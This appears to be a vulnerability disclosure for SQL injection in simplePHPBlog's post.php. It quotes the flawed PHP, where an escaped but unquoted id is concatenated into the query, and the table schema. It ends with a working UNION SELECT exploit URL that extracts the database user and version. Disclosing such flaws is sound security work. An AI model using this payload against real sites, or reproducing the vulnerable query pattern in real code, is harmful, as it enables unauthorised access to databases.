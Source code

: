 # simplePHPBlog SQL injection #

## Vulnerability link ##

https://github.com/ajamous/simplePHPBlog

## Vulnerability details ##

post.php

	<?php
	    require 'config/db.php';
	    //Get ID of POST
	    $id = mysqli_real_escape_string($conn, $_GET['id']);
	    //create query
	    $query = 'SELECT * FROM posts WHERE id = ' .$id;
	    // get the results
	    $result = mysqli_query($conn, $query);
	    // Fetch Data from database
	    $post = mysqli_fetch_assoc($result);
	    // var_dump is used to test out the query results - enable if needed only
	    //var_dump($posts);
	    // Free the results from memory
	    mysqli_free_result($result);
	    // close connection with MySQL database once you have retreived the data
	    mysqli_close($conn);
	?>

In this code `id` use `mysqli_real_escape_string` but in sql query `$query = 'SELECT * FROM posts WHERE id = ' .$id;` there is no single quotes to use in sql.


	--
	-- Table structure for table `posts`
	--
	
	CREATE TABLE `posts` (
	  `id` int(11) NOT NULL,
	  `title` varchar(255) NOT NULL,
	  `body` text NOT NULL,
	  `author` varchar(255) NOT NULL,
	  `created_at` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
	) ENGINE=InnoDB DEFAULT CHARSET=utf8;


 
## exploit: ##

http://target/post.php?id=-1 union select 1,2,user(),version(),5
